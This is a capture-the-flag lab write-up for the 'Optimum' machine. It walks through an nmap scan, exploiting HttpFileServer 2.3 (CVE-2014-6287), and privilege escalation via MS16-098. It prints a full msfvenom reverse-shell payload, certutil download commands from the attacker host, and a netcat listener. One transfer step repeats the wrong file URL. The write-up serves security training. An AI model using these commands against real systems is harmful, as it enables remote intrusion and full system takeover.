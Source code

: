 # Optimum

## Nmap

```
sudo nmap 10.10.10.8 -p- -sS -sV   

PORT   STATE SERVICE VERSION
80/tcp open  http    HttpFileServer httpd 2.3
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

Browsing to the only port available we have a web page titled 'HFS" and we can see 'HttpFileServer 2.3'

![http://10.10.10.8/](<../../../.gitbook/assets/image (1651).png>)

Researching exploits for this we come to: [CVE-2014-6287](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6287).

**Description:**

The findMacroMarker function in parserLib.pas in Rejetto HTTP File Server (aks HFS or HttpFileServer) 2.3x before 2.3c allows remote attackers to execute arbitrary programs via a %00 sequence in a search action.

Searching for exploits on exploit-db.com we have the following PoC available:

{% embed url="https://www.exploit-db.com/exploits/49584" %}

I downloaded the exploit and amended the correct information for the variables shown below:

![](<../../../.gitbook/assets/image (1652).png>)

Executing the exploit next we get a shell on the target system as the user 'kostas'.

![](<../../../.gitbook/assets/image (1653).png>)

Now that we are on the system I was able to use the `systeminfo` command to pull system information. I copied this to a text file on my attacking machine and run this against windows-exploit-suggester.py which I have linked below:

{% embed url="https://github.com/AonCyberLabs/Windows-Exploit-Suggester" %}

After running windoiws-exploit-suggester.py we get the results below:

![](<../../../.gitbook/assets/image (1654).png>)

Where it is reported that the target system is vulnerable to a RGNOBJ Interger Overflow otherwise known as MS16-098.

`Description of MS16-098`:

This security update resolves vulnerabilities in Microsoft Windows. The vulnerabilities could allow elevation of privilege if an attacker logs on to an affected system and runs a specially crafted application that could exploit the vulnerabilities and take control of an affected system.

This security update is rated Important for all supported releases of Windows. For more information, see the **Affected Software and Vulnerability Severity Ratings** section.

The security update addresses the vulnerabilities by correcting how the Windows kernel-mode driver handles objects in memory. For more information about the vulnerabilities, see the **Vulnerability Information** section.

{% embed url="https://docs.microsoft.com/en-us/security-updates/securitybulletins/2016/ms16-098" %}

I downloaded a precompiled binary from the follow GitHub:

{% embed url="https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS16-098" %}

Before transferring the binary over we need to gain a `cmd.exe` shell as the current PS shell is bound. I will use `msfvenom` to generate a reverse shell on my attacking machine.

```
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.29 LPORT=443 -f exe -o Shell.exe
```

![](<../../../.gitbook/assets/image (1655).png>)

I then started a Python SimpleHTTPServer on my attacking machine to host the `msfvenom` binary.

```
sudo python2 -m SimpleHTTPServer 80
```

Then on the attacking machine used `certutil.exe` to download the `msfvenom` binary.

```
certutil.exe -f -urlcache -split http://10.10.14.29/Shell.exe
```

![](<../../../.gitbook/assets/image (1656).png>)

Then set a `netcat` listener on my attacking machine to the port specified in the `msfvenom` binary.

```
sudo nc -lvp 443
```

Then executed the shell on the target system to gain a `cmd.exe` shell.

```
cmd.exe /c shell.exe
```

![](<../../../.gitbook/assets/image (1658).png>)

From here I then transferred the MS16-098 binary 'bfill.exe' over to the target system.

```
certutil.exe -f -urlcache -split http://10.10.14.29/Shell.exe
```

With the binary now on the target system I executed it with the following command to gain a SYSTEM shell.

```
cmd.exe /c bfill.exe
```

![](<../../../.gitbook/assets/image (1659).png>)
